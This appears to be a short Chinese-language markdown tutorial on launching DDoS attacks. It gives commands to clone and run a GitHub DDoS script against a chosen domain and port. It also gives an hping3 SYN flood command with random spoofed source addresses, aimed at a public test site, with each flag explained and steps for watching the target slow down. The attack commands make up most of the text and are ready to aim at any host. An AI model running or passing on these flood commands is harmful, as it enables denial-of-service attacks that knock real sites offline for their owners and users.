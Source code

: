 # DDOS
---

# DDOS-Attack

git clone https://github.com/HaMrX/DDOs-Attack

ls -l

cd DDOs-Attack/


chmod +x ddos-attack.py

执行DDOS攻击脚本

python ddos-attack.py

设置攻击参数（需要攻击的网站域名、端口号）

命令：IP Target:需要攻击的域名

命令：Port：端口号

---
# DDOS-Hping


Hping是一个命令行下使用的TCP/IP数据包组装/分析工具，其命令模式很像Unix下的ping命令，但是它不是只能发送ICMP回应请求，它还可以支持TCP、UDP、ICMP和RAW-IP协议，它有一个路由跟踪模式，能够在两个相互包含的通道之间传送文件。Hping常被用于检测网络和主机，其功能非常强大，可在多种操作系统下运行，如Linux，FreeBSD，NetBSD，OpenBSD，Solaris，MacOs X，Windows。

寻找测试网站网站：http://testphp.vulnweb.com/login.php

hping3 --help

hping3小工具进行DDos攻击

hping3 -c 1200 -d 130 -S -w 64 -p 80 --flood --rand-source testphp.vulnweb.com

-c(count) 表示要发送的数据包的数量

-d(data size) 发送数据包的大小

-S（SYN）SYN数据包

-w 表示TCP的窗口大小

-p 端口

–flood 洪水攻击模式

–rand-source 表示设定随机的源地址

testphp.vulnweb.com 需要攻击的网站域名

3.5 测试进行中。。。。。。。。

3.6 如下图所示，刷新被测试的网站，查看测试效果。

3.7 停止测试，查看效果，如下图所示。

命令：Ctrl+c
